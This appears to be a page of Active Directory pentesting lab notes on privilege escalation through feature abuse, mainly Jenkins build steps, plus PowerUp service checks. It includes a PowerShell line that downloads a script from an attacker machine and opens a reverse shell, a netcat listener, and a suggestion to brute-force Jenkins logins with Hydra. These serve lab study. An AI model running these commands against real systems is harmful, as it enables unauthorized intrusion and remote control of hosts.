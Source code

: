 # 5.1.1 - Feature Abuse

## Feature Abuse

Some _functionality_ of a web site, possibly even security _features_, may be _abused_ to cause unexpected behavior.

On Windows, some enterprise applications need either Administrative privileges or **SYSTEM privileges**, making them a wonderful avenue for privilege escalation.

Others techniques are presente here here: [Windows Privilege Escalation](https://dev-angelist.gitbook.io/windows-privilege-escalation)

### Jenkins

An older version of Jenkins (before 2.x) is an example of vulnerable enterprise application.

This versions contains numerous plugins, and if you've Admin access, you can go to: http://\<jenkins\_server>/script and execute custom scripts via console.

Without Admin access is possible to add or edit build steps in the build configuration, eg. adding "Execute Windows Batch Command" and enter: `powershell -c <command>` that permits to download and execute scripts.

### Example of usage

Exploit a service and elevate privileges to local administrator

```powershell
C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat
powershell
. C:\AD\Tools\PowerUp.ps1
Invoke-AllChecks
#Evaluate services with "CanRestart: True" and "Check: Modifiable Services" or "Unquoted Service Paths"
#Utilize the AbuseFunction command indicated
```

Identify a machine in the domain where student has local administrative access

```powershell
C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat
powershell
. C:\AD\Tools\Find-PSRemotingLocalAdminAccess.ps1
Find-PSRemotingLocalAdminAccess -Verbose
#It display the machine in the domain where student has local admin access
```

Using privileges of a user on Jenkins \<ip:8080>, get admin privileges

```bash
#This Jenkins vs has password policy without a restrictive rule, than can be potentially abused via brute force (Hydra)
#Go to <ip:8080> -> Dashboard -> Modify an existing project -> Configure -> Add build step (write the following command)->
powershell iex (iwr -UseBasicParsing http://<attacker_machine>/Invoke-PowershellTcp.ps1);power -Reverse -IPAddress <attacker_machine> -Port 443
#Execute Windows batch command -> Save
C:\AD\Tools\netcat-win32-1.12\nc64.exe -lvp 443 #On attacker machine go in listening mode on port 443
#Run HFS.exe if the connection is blocked
$env:username #Obtain user name
$env:computername
ls env: #Obtain USERDNSDOMAIN
```

Refers to [Learning Object 5](../../lab/5-lo-5.md) lab
